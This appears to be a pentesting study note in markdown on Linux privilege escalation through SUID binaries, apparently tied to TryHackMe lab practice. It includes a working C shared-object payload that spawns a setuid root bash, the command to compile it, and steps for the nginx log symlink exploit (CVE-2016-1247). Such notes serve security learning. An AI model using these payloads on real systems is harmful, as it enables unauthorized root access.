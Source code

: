 # Escalation via SUID

## Enumeration

- `find / -perm -u=s -type f 2>/dev/null`  will list all the files with the suid perm
- You can see the suid perm in the permissions as an `s` like here:  
![image](https://user-images.githubusercontent.com/96747355/167308910-5b0a0157-6586-46bd-a213-42c229e996e8.png)  

## Exploitation

- Here again we can use [GTFOBins](https://gtfobins.github.io/#+suid) and check if our command is in there and has documented exploitation


## Practice

- You see and example of this exploit in [this writeup](../writeups/THM-vulnversity.md)

## SUID - Shared Object Injection

### Enumeration

- `find / -type f -perm -04000 -ls 2>/dev/null` 
- `ls -al nameoffile`

### Exploitation

- In our example the file is `/usr/local/bin/suid-so`
- `strace /usr/local/bin/suid-so 2>&1` with a grep on what could be interesting `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"` this will show us what happens with the file. This is the place to check if we have rights on one of the file it uses. In our example we will use the file in this output `open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)`
- Once we find a file we can try to overwrite it with a payload to elevate our privileges
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() { 
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
- We make a directory for our file 
- We compile our file `gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c` in my example the file I will overright is `/home/user/.config/libcalc.so`
- This way we just need to run the sid file which is `/usr/local/bin/suid-so` in our example
- And it should give us a root prompt  
![image](https://user-images.githubusercontent.com/96747355/170128114-817d12e9-27bf-429c-9682-6e29222cdcb4.png)  

## SUID - Binary Symlinks

- Issues on log created by nginx

### Enumeration 

- `./linuxexploitsuggester.sh` we should have this output `[+] [CVE-2016-1247] nginxed-root.sh` or we could manually look for this specific vulnerability by checking nginx version `dpkg -l | grep nginx`
- Now we need to check if the suid bit is set on sudo `find / -type f -perm -04000 -ls 2>/dev/null` or `ls -al /usr/bin/sudo`

### Exploitation

- `ls -al /var/log/nginx`
- We will need to create a malicious symlink
- We will use [this](https://github.com/xl7dev/Exploit/blob/master/Nginx/nginxed-root.sh) to do so
- `./nginxed-root.sh /var/log/nginx/error.log`
- When nginx will be restarted, we will be root  
![image](https://user-images.githubusercontent.com/96747355/170131842-3acc1171-23de-4d18-9691-167cf4649cc6.png)  
- Check out [this resource](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html) to learn more about this way to escalate

## SUID - Environmental Variables

### Enumeration 

- `find / -type f -perm -04000 -ls 2>/dev/null` we can then chek for env var with the suid bit activated in our example we have `/usr/local/bin/suid-env` this launches apache using service (we know this by making a strings on the file).
 **COMING SOON**
